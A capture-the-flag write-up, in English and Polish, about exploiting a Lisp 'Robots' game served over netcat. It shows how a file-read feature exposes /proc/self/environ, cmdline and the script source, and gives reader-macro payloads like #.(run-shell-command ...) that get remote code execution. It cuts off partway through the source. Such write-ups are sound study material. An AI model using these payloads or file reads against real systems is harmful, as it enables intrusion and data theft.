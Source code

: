And we started with analysis of this code to check for some vulnerabilities.
There are only 3 places where we provide input so we focused on those.
They were using `read` function so we tried to find if it can be exploited.
Then we found this document: http://irreal.org/blog/?p=638

It was exactly what we needed!
By sending payloads:

```
#.(lisp_code)
```

We get remote code execution.
With this we checked how to execute shell commands from LISP and used:

```
#.(run-shell-command "ls")
```

To find the flag in `/getflag/flag` and then:

```
#.(run-shell-command "./getflag/flag")
```

To read the flag.

###PL version

Dostajemy adres IP do połączenia za pomocą netcata pod którym możemy zagrać w grę.
Gra to: https://en.wikipedia.org/wiki/Robots_%28computer_game%29
Celem gry jest unikanie goniących nas robotów i powodowanie żeby roboty wpadały na siebie.
Po wygraniu gry dostajemy możliwość przeczytania zawartości pliku z dysku.

Możliwość czytania z plików wykorzystujemy do przeczytania:

```
/proc/self/environ
/etc/rsyslog.conf
/proc/self/cmdline
/proc/self/exe
```

Czytanie `cmdline` było bardzo ciekawe ponieważ powiedziało nam że gra jest napisana w LISPie a także jak nazywa się skrypt.
Dzięki temu mogliśmy odczytać źródło skryptu:

```lisp
> robots.lisp
(import 'charset:utf-8 'keyword)

; Original code: http://landoflisp.com/robots.lisp

; To get the flag you'll have to get a shell...

(defun readfile (file)
  (let ((in (open file :if-does-not-exist nil)))
    (when in
      (loop for line = (read-line in nil)
            while line do (format t "~a~%" line))
      (close in))))

(defun win ()
  (format t (colorize 'green "~%Congratulations, you won!!!"))
  (loop
    (format t "~%What do you want to do?")
    (format t "~%~{~a to read a file, ~a to play again, ~a to quit~}~%> "
            (mapcar (lambda (x) (colorize 'green x)) '("r" "c" "q")))
    (setq c (read))
    (ccase c
           ('r (progn
```